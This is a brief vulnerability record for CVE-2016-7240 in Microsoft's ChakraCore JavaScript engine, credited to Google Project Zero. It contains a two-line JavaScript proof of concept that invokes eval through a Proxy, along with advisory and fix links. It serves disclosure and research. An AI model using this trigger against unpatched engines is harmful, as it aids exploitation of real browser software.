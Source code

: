 # CVE-2016-7240

- Report: Sep 2016
- Fix: Nov 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var p = new Proxy(eval, {});
p("alert(\"e\")");
```

## Reference

- [Microsoft](https://technet.microsoft.com/library/security/ms16-129)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=948)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/55358e3c44c0ad83eb3b6e5a0b88d88a591afaa2#diff-65986367b5ed4b4e42266314f3df8087R83)

